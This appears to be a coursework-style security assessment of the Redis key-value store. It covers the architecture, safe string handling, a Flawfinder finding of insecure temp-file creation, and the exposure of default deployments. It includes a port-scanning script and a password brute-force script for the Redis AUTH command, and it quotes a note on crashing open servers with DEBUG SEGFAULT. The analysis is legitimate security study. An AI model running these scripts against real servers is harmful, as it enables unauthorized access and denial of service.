





Redis Draft Understanding
---------------------------------

### Requirements

Written the report in such a way that the reader can understand the application, security model and get a good sense of it’s security worthiness in the deployment context. Demonstrated proficiency in using tools and techniques for finding the vulnerabilities, provided a good write up on the approach and results.

### Introduction

[REDIS](http://redis.io/) is an advanced key-value store, which is often referred to as a data structure server. As a technology, Redis continues to become popularity. It is used in several important products and services such as: [GitHub](https://github.com/blog/530-how-we-made-github-fast), [stackoverflow](http://meta.stackoverflow.com/questions/69164/does-stackoverflow-use-caching-and-if-so-how/69172), [Disqus](http://redis.io/topics/whos-using-redis) and many more that we can find from the [who is using](http://redis.io/topics/whos-using-redis) page. Social networks and real-time applications heavily rely on Redis. For example, Twitter makes heavy use of Redis, and has open-sourced some of the projects they built internally to take advantage of Redis. [Twemproxy](https://github.com/twitter/twemproxy) is a fast proxy for Redis that reduces the connection count on backend caching servers. 

Because of the popularity of Redis that it is used in a wide variety of applications, it is worth to analyze the security risk. 

### Work Flow of Redis

Redis is a client/server system. A common deployment diagram is the following:



Redis server is a process that accepts messages on the TCP protocol layer. **`redis-cli`** is the official client but also we can implement several flavors of languages for other external project such as: `C++`, `Python`, `Ruby` and `Java`. 

All the requests are managed with commands. Using a command table and according that what is read from sockets a command handler is invoked to perform desired action (this part will be explain further below).

Starting Redis server is simple. The Redis server starts to run by creating a TCP connection to the port 6379.


Redis instance is made by a set of global variables and methods that access them. `main()` function which is in `redis.c` of Redis server is:



```c
int main(int argc, char **argv) {

	......
	initServerConfig();
	......
	initServer();
	......
}
```
After reading the configuration file `redis.cnf`, `initServer()` is called. It will initialize all global variables of Redis. In particular, it creates a set of linked list for resource management. 

```c
void initServer() {
	......
	server.clients = listCreate();
	server.slaves = listCreate();
	server.monitors = listCreate();
	server.objfreelist = listCreate();
	......	
}
```

Internally Redis use `dictionary` data structure for multiple purpose as the time complexity of dictionary is `O(1)`.

```c
......
server.db[j].dict = dictCreate(&dbDictType,NULL);
server.db[j].expires = dictCreate(&keyptrDictType,NULL);
server.db[j].blockingkeys = dictCreate(&keylistDictType,NULL);
......
```

After that, it initializes the event library which creates the event loop and the server socket. Then it enters the main loop for I/O message:

```c
void aeMain(aeEventLoop *eventLoop) {
    eventLoop->stop = 0;
	 while (!eventLoop->stop) {
	 if (eventLoop->beforesleep != NULL)
	 		eventLoop->beforesleep(eventLoop);
			aeProcessEvents(eventLoop, AE_ALL_EVENTS);
	  }
}
```

### Unit Test in Redis

Redis supports `tcl` scripts to do the unit test and automated test. Most the scripts are under the `tests` folder, the rest tests are embedded in the source code such as `ziplist.c` and `zipmap.c`.

We can run the unit test suite by using the command `runtest`:

```bash

$ ./runtest --help
    /usr/bin/tclsh8.5
    --valgrind         Run the test over valgrind.
    --accurate         Run slow randomized tests for more iterations.
    --quiet            Don't show individual tests.
    --single <unit>    Just execute the specified unit (see next option).
    --list-tests       List all the available test units.
    --clients <num>    Number of test clients (16).
    --force-failure    Force the execution of a test that always fails.
    --help             Print this help screen.
```
```bash    
$ ./runtest --list-tests
  /usr/bin/tclsh8.5
  unit/printver
......
```
```bash

$ ./runtest --single unit/printver
    /usr/bin/tclsh8.5
    Cleanup: may take some time... OK
    Starting test server at port 11111
        
    Testing unit/printver
        
    ... ...
        
    Execution time of different units:
      0 seconds - unit/printver
        
      \o/ All tests passed without errors!
        
        Cleanup: may take some time... OK
```


### Security Model


### Code Security

Redis is written in ANSI C. Most vulnerabilities in C are related to buffer overflows and string manipulation. In this section I will first introduce some great practices that Redis uses to improve the security, from my limited point of view its implementations protect against such as buffer overflows, format bugs and other memory corruption issues is simple and elegant to read.

#### *home-made* string library

As mentioned before, most vulnerabilities in C are related to string manipulation. To avoid this problem, Redis implements private string library in `sds.c` (sds stands for Simple Dynamic Strings) as a replacement of standard buit-in string libraries. 

For example, to avoid `strcat` vulnerability, Redis implements private version of `strcat`, named `sdscat` which will implicitly check the length then appends the specified binary-safe string pointed by 't' of 'len' bytes to the * end of the specified sds string 's'.

```c
sds sdscatlen(sds s, const void *t, size_t len) {
    struct sdshdr *sh;
    size_t curlen = sdslen(s);

    s = sdsMakeRoomFor(s,len);
    if (s == NULL) return NULL;
    sh = (void*) (s-(sizeof(struct sdshdr)));
    memcpy(s+curlen, t, len);
    sh->len = curlen+len;
    sh->free = sh->free-len;
    s[curlen+len] = '\0';
    return s;
}
```

All user can affected input validation has been done as the following:

```c
static void repl() {
	while((line = linenoise(context ? config.prompt : "not connected> ")) != NULL) {
        if (line[0] != '\0') {
            argv = sdssplitargs(line,&argc);
            if (history) linenoiseHistoryAdd(line);
            if (historyfile) linenoiseHistorySave(historyfile);
}
``` 

#### White List Command Table

Redis uses a command table to interpret every command from the protocol and to execute an appropriate action. Command table defines all validate commands, anything else will be drop. 

A command table is defined in `redis.c` as the following:

```C
struct redisCommand redisCommandTable[] = {
    {"get",getCommand,2,"r",0,NULL,1,1,1,0,0},
    {"set",setCommand,-3,"wm",0,NULL,1,1,1,0,0},
	...
    {"incr",incrCommand,2,"wm",0,NULL,1,1,1,0,0},
    {"decr",decrCommand,2,"wm",0,NULL,1,1,1,0,0},
    ...
}
```

While handling user input commands, `lookupCommand()` will fetch the command from the dictionary like data structure.

```c
void *dictFetchValue(dict *d, const void *key) {
    dictEntry *he;

    he = dictFind(d,key);
    return he ? dictGetVal(he) : NULL;
}
```
In the file `dict.c`, if the command does not exist, it will return `NULL` and therefore deny to execute the command.

#### Special Terminations Protection

Unbounded string errors is also an important C vulnerability. To ensure binary safety, Redis defines a set of rules that regulate different data format:

+ Simple Strings: a plus `+` character, followed by a string that cannot contain a `CR` or `LF` character (no newlines are allowed), terminated by `CRLF` (that is `"\r\n"`). 
+ Protocol Errors: exactly like simple strings but the first character is a minus `-` character instead of a plus.
+ Integers:  a `CRLF` terminated string representing an integer, prefixed by a ":" byte. 
+ Bulk Strings: A "$" byte followed by the number of bytes composing the string (a prefixed length), terminated by `CRLF` with the actual string data and a final `CRLF`.

#### Thread Safe

At the root, Redis is a single-threaded server, and the concurrency at the I/O level is using an I/O multiplexing mechanism and an event loop. This means that a single thread reads incoming connections using an event-based paradigm such as `epoll`, `kqueue` and `select`. All asynchronous I/O is supported by kernel thread pools and/or split-level drivers. When a specific event occurs on a file descriptor, it processes them and write back responses. Below UML sequence diagram shows how a command received by a client is processed internally in Redis:





To provide thread safe, Redis use an *home-made* event library include, `ae.c`, `ae_poll.c`, `ae_evport.c` and `ae_kqueue.c`. Central object is the `eventLoop` which contains events that has been invoked according to socket I/O. `aeApiPoll` polls all the socket descriptors to see if there is network activity. In the `aeProcessEvents()` all fired events are checked and the appropriate handler is invoked. A command table mentioned before as belowing:

```c
struct redisCommand redisCommandTable[] = {
    {"get",getCommand,2,"r",0,NULL,1,1,1,0,0},
    {"set",setCommand,-3,"wm",0,NULL,1,1,1,0,0},
    ...
}
```

The second parameter of this structure (`getCommand`) is the name of the method to invoke. For example a `setCommand()` is implemented as following:

```c
static void saveCommand(redisClient *c) {
	    if (server.bgsavechildpid != -1) {
	        addReplySds(c,sdsnew("-ERR background save in progress\r\n"));
	        return;
	    }
	    if (rdbSave(server.dbfilename) == REDIS_OK) {
	        addReply(c,shared.ok);
	    } else {
	        addReply(c,shared.err);
	    }
	}
```

`addReply()` is used to push back responses to client.

### Source Code Security Assessment

In the last section, I introduced some good practices on Redis source code implementations. In this section I will conclude my effort on using static analysis tool to find a valuable security vulnerability.

[Flawfinder](http://www.dwheeler.com/flawfinder/) is a static analysis tool that uses a database of known insecure C functions, to scan a program for any potential security issues. Compare to others, Flawfinder can find problems with race conditions and system calls. 

After using Flawfinder to analyze Redis source code under `redis/src`, below is the summarization:

```
Hits = 678
Lines analyzed = 47477 in 1.84 seconds (35527 lines/second)
Physical Source Lines of Code (SLOC) = 32172
Hits@level = [0]   0 [1] 181 [2] 461 [3]  14 [4]  21 [5]   1
Hits@level+ = [0+] 678 [1+] 678 [2+] 497 [3+]  36 [4+]  22 [5+]   1
Hits/KSLOC@level+ = [0+] 21.0742 [1+] 21.0742 [2+] 15.4482 [3+] 1.11899 [4+] 0.683824 [5+] 0.0310829
Minimum risk level = 1
Not every hit is necessarily a security vulnerability.
There may be other security vulnerabilities; review your code!
```

Because Redis uses a *home-made* string library, flaws of string manipulation should be ignored.

Two interesting flaws in the `rdb.c` seems caused by the same vulnerability - file operation:

```
rdb.c:641:  [2] (tmpfile) tmpfile:
  Function tmpfile() has a security flaw on some systems (e.g., older
  System V systems). 
  
rdb.c:642:  [2] (misc) fopen:
  Check when opening files - can an attacker redirect it (via symlinks),
  force the opening of special file type (e.g., device files), move
  things around to create a race condition, control its ancestors, or change
  its contents?. 
```

In the file `rdb.c` line 641, the function `rdbsave()` is showing as below:

```c
int rdbSave(char *filename) {
    dictIterator *di = NULL;
    dictEntry *de;**
    char tmpfile[256];
    char magic[10];
    int j;
    long long now = mstime();
    FILE *fp;
    rio rdb;
    uint64_t cksum;

    snprintf(tmpfile,256,"temp-%d.rdb", (int) getpid());
    fp = fopen(tmpfile,"w");
    if (!fp) {
        redisLog(REDIS_WARNING, "Failed opening .rdb for saving: %s",
            strerror(errno));
        return REDIS_ERR;
    }
	...
}
```

In `rdb.c` line 641, the function `rdbSave` does not use a security temporary file creation routine such as `mkstemp`.  According to the vulnerability of symbolic link file attack [1](https://www.owasp.org/index.php/Improper_temp_file_opening),  [2](https://www.owasp.org/index.php/Insecure_Temporary_File). This is vulnerable to a wide range of attacks which could result in overwriting (in line 693-695) and unlinking (in line 701) any file / hard link / symlink placed in `temp-PID.rdb` by an attacker. 

The code should be creating the temporary file using some kind of safe function like `mkstemp`, `O_EXCL open`, etc. instead of just using a PID value which does not have enough entropy and protection from race conditions. It should also be sure it has set the CWD of itself to a known-safe location that should have permissions which are only open to the redis daemon / redis user and not to other users or processes.


#### Network Security

> Redis is designed to be accessed by trusted clients inside trusted environments.... In general, Redis is not optimized for maximum security but for maximum performance and simplicity...

According to [Redis Protocol specification](http://redis.io/topics/protocol), Redis communication protocol is a simple plain-text mechanism. 

In the context of Redis the protocol is only used with TCP connections, offering no transport layer security. Because of this, all access to the Redis server port should be denied except for "trusted clients inside trusted environments". 

In this section I will first illustrate the serious results if the Redis server is installed and deployed as default. However, this is not a vulnerability or design flaw of Redis. I will discuss the reason to do this.

Below two sections I will do the Network Attack and Authentication Attack.

#### Network Attack

By default, Redis listens on all available IP addresses on port 6379, with no configuration required at all. No configuration by default is a normal state of NoSQL databases if you downloaded the software and installed it yourself. This is convenient for developers, however, sometimes in doing so developers may forget about the need for configuration.

Below is a scanning script I will use as a demonstration:

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import sys
import nmap

rhost = '127.0.0.1'
rport = 6379
# Use nmap to scan default port number
print "[-] Start to run port scanning"
nm = nmap.PortScanner()
response = nm.scan(rhost, rport)

product_info = response['scan'][rhost]['tcp'][rport]
if product_info['state'] == 'open':
    print "[-] Redis server is running on default port"
```
I predict that by change the specific IP address from the localhost to any network and its sub-network (/24) ranges, this script can get a lot of misconfigured Redis server addresses. 

Here is a great [post](https://codeinsecurity.wordpress.com/tag/redis/) which discussed and illustrates use a random scanning attack and found a lot of mis-configurated Redis server. I quote it below:

>...I wrote up a quick script to scan random /24 ranges for Redis installations, and was amazed at the result. From a single day’s scanning, I found 48 open servers. What’s worse, two of them are major household-name websites – both of which were using Redis to store their page content. 

>Obviously both of these companies have been contacted....It gets even worse, though. Redis allows you to send a DEBUG SEGFAULT command, which purposefully crashes the server. This means you can take down any Redis installation remotely...

#### Authentication Attack

Redis stores the password in the `redis.conf` file. By default, no authentication is required. To enable the authentication feature, we need to edit the `redis.conf` file. After that, Redis server will refuse any query by unauthenticated clients. 


Redis has a weak password storage method - the password is set in clear text and the `AUTH` command is not rate limited or restricted in any way. It provides a huge opportunities for brute force attack. An attacker could repeatedly issue the `AUTH` command until the correct password is identified. Below is the script that I use to do a brute force attack:

```python
import redis
from redis import exceptions
import string
try:
    import pwddict
except:
    try:
        sys.path.append('.')
        import pwddict
    except:
        sys.exit(2)
        
# generates word list
rpwd = ''
p = pwddict.SimpleEngine(string_length=4)
for password in p.generator():
    try:
        pwd = ''.join(password)
        print "[-] Try password {0}".format(pwd)
        r = redis.Redis(host=rhost, port=rport, db=0, password=pwd)
        r.set("foot", "bar")
        if r.get("foot") == "bar":
            rpwd = pwd
            break;
    except exceptions.ResponseError:
        print "[-] Failed to auth by redis server."
        continue

print "Success to crack the auth, password is {0}".format(rpwd)
```

Based on the weak authentication by default flaw of Redis, [Metasploit](http://www.rapid7.com/) has already released the [Redis Server Scanner Module](http://www.rapid7.com/db/modules/auxiliary/scanner/misc/redis_server). 



### Performance and Network Security

Based on the design philosophy [Redis Manifesto](http://antirez.com/post/redis-manifesto.html) written by the author, anything will reduce the performance such as **Secure Authentication** and **Communication Encryption/Descryption** will be removed to insure the performance. This is because Redis is deigned as a back end data structure server, consider the cloud environment, all network security issues should be done by firewalls such as DMZ.

Below is a graph on the performance comparison of Redis and MongoDB written operations:



Below is a simple benchmark in Python I wrote to get the comparison result:

```python
#!/usr/bin/env python2.7
import sys, time
from pymongo import Connection
import redis

# connect to redis & mongodb
redis = redis.Redis()
mongo = Connection().test
collection = mongo['test']
collection.ensure_index('key', unique=True)

def mongo_set(data):
    for k, v in data.iteritems():
        collection.insert({'key': k, 'value': v})

def redis_set(data):
    for k, v in data.iteritems():
        redis.set(k, v)

def do_tests(num, tests):
    # setup dict with key/values to retrieve
    data = {'key' + str(i): 'val' + str(i)*100 for i in range(num)}
    # run tests
    for test in tests:
        start = time.time()
        test(data)
        elapsed = time.time() - start
        print "Completed %s: %d ops in %.2f seconds : %.1f ops/sec" % (test.__name__, num, elapsed, num / elapsed)

if __name__ == '__main__':
    num = 1000 if len(sys.argv) == 1 else int(sys.argv[1])
    tests = [mongo_set, redis_set] # order of tests is significant here!
    do_tests(num, tests)
```

And below is the result based on MongoDB 2.6.4 and Redis 2.9.999 and latest pymongo and redis-py:

```bash
$ ./cache_benchmark.py 10000
Completed mongo_set: 10000 ops in 1.40 seconds : 7167.6 ops/sec
Completed redis_set: 10000 ops in 0.78 seconds : 12752.6 ops/sec
```

Therefore, Redis must be deployed in firewall secured locations or listening so only on server processes can talk to them. With the drive of cloud based services its possible to assemble an application of any scale very quickly. 

I would like to clarify my point on the network security of Redis – it is designed to be lightweight and provide only minimal security, so this problem is not a flaw of Redis itself. Instead, it is a flaw of how people are using (or abusing) Redis. The current ethos is that you should always apply network security to your NoSQL systems – if you don’t, it will end in tears.
